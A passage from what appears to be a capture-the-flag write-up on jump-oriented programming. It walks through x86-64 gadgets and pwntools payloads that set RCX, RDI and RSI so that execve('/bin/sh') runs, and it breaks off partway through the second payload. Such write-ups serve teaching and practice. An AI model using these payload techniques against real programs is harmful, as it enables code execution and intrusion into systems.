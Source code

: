 same as RSI, however this is chained in our second gadget:&#x20;

```asm6502
0x40103f:    jmp    QWORD PTR [rdi+0xb]
```

the target where we wanna jump to is of course, the syscall call.

* RCX

RCX is relevant because it's what's will control RAX in the second gadget:

```asm6502
0x40103c:    sub    rax,rcx
```

in the last screenshot, RAX was 0x73 thus to achieve RAX = 0x3b, RCX must be 0x38

combining all our payload now would be:

```python
    payload = b''
    payload += flat([
        stack-0x4b+0x8-0xb,     # rdi (start of  (stack-0x6b)) also points to -> &(0x40105a)
        0x0,                    # rdx
        stack-0x4b+0x25,        # rsi -> points to &(0x40103c)
        0x38,                   # rcx
        0x40103c,               # is *(stack-0x4b+0x25), i.e. target for `jmp QWORD PTR [rsi-0x25]`
        0x40105a,               # is target for `jmp QWORD PTR [rdi+0xb]`
    ])
    payload += b'\x00' * (99-len(payload))
    payload += flat([
        0x401000,               # will go to rbx
        (stack-0x6b)
    ])
    io.send(payload)
```

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

and we're able to hit execve, one small thing is that now RDI points to memory that contains one of our address, we can simply fix this by adjusting the offset where our pointer and the /bin/sh is located

```python
    payload = b''
    payload += flat([
        stack-0x4b+0x18-0x4-0xb,# rdi (start of  (stack-0x6b)) also points to -> &(0x40105a)
        0x0,                    # rdx
        stack-0x4b+0x25,        # rsi -> points to &(0x40103c)
        0x38,                   # rcx
        0x40103c,               # is *(stack-0x4b+0x25), i.e. target for `jmp QWORD PTR [rsi-0x25]`
    ])
    payload += b'\x00/bin/sh'
    payload += p32(0x0) + p32(0x40105a)
    payload += b'\x00' * (99-len(payload))
    payload += flat([
```